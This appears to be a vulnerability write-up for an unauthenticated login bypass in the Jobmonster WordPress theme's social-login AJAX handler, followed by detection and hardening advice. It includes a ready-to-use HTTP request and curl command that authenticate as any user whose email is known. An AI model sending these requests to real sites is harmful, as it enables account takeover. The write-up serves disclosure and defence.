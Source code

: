 Why it’s exploitable

- Unauthenticated reachability via admin-ajax.php (wp_ajax_nopriv_… action).
- No nonce/capability checks before state change.
- Missing OAuth/OpenID provider verification; default branch accepts attacker input.
- get_user_by('email', $_POST['id']) followed by wp_set_auth_cookie($uid) authenticates the requester as any existing email address.

Exploitation (unauthenticated)

- Prerequisites: attacker can reach /wp-admin/admin-ajax.php and knows/guesses a valid user email.
- Set provider to an unsupported value (or omit it) to hit the default branch and pass id=<victim_email>.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Content-Type: application/x-www-form-urlencoded

action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com
```

```bash
curl -i -s -X POST https://victim.tld/wp-admin/admin-ajax.php \
  -d "action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com"
```

Expected success indicators

- HTTP 200 with JSON body like {"status":"success","message":"Login successfully."}.
- Set-Cookie: wordpress_logged_in_* for the victim user; subsequent requests are authenticated.

Finding the action name

- Inspect the theme/plugin for add_action('wp_ajax_nopriv_...', '...') registrations in social login code (e.g., framework/add-ons/social-login/class-social-login.php).
- Grep for wp_set_auth_cookie(), get_user_by('email', ...) inside AJAX handlers.

Detection checklist

- Web logs showing unauthenticated POSTs to /wp-admin/admin-ajax.php with the social-login action and id=<email>.
- 200 responses with the success JSON immediately preceding authenticated traffic from the same IP/User-Agent.

Hardening

- Do not derive identity from client input. Only accept emails/IDs originating from a validated provider token/ID.
- Require CSRF nonces and capability checks even for login helpers; avoid registering wp_ajax_nopriv_ unless strictly necessary.
- Validate and verify OAuth/OIDC responses server-side; reject missing/invalid providers (no fallback to POST id).
- Consider temporarily disabling social login or virtually patching at the edge (block the vulnerable action) until fixed.

Patched behaviour (Jobmonster 4.8.0)

- Removed the insecure fallback from $_POST['id']; $user_email must originate from verified provider branches in switch($_POST['using']).

